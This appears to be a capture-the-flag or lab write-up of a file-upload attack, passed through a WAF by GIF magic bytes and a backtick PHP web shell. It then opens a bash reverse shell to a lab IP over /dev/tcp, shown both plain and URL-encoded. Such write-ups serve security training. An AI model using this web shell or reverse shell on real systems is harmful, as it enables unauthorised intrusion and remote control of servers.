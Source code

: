 Trying to upload a php file we've got invaid file type
We can try loading many types of extensions to verify:

#### Burpsuite configuration
Adding extensions to test:
![[Pasted image 20240320184622.png]]
Configuration of Intruder and Grep - Extract to capture the error message
![[Pasted image 20240320184520.png]]

We've got invalid file type for all, then we can try changing the **Content-type** header to **image/jpg** and we've got now Crappy WAF detected which is a WAF blocking our hidden php payload.
![[Pasted image 20240320190433.png]]
![[Pasted image 20240320190558.png]]
![[Pasted image 20240320190729.png]]


### WAF Bypass
We've got the error message by trying *system*, *shell_exec* our *passthru* ( PHP function used to execute an external command), we will bypass this security measure by sing *echo `command`*
#### Changing magic numbers and function
GIF8 is the magic number of GIF in order to deceive the portal that it's an GIF file and trying to upload a command execution code.
payload:

GIF8;
<?php
	$command=$_GET['cmd'];echo `$command`;
?>

Now we see it was sucessful and it was stored using a name file in the server.
![[Pasted image 20240320194623.png]]

#### Inspecting upload file and getting a shell

Inspecting */uploads* directory, we notice that it's giving a forbidden message
![[Pasted image 20240320194901.png]]
Looking for the filename *b763e4c2fe5c.gif* and his extension, we try using an *id* command:

![[Pasted image 20240320195038.png]]
The reason by a GIF file executes PHP commands it's because there is a file called **.htaccess** inserver with this instructions:
![[Pasted image 20240320200246.png]]
![[Pasted image 20240320200809.png]]

If this file doesn't existe, we can creating specifying which extensions we will use to execute php files.

Generating a reverse shell:
Injecting: `bash -c "bash -i >& /dev/tcp/10.10.2.129/4444 0>&1"` in ULR code

bash -c "bash -i >%26 /dev/tcp/10.10.2.129/5554 0>%261"
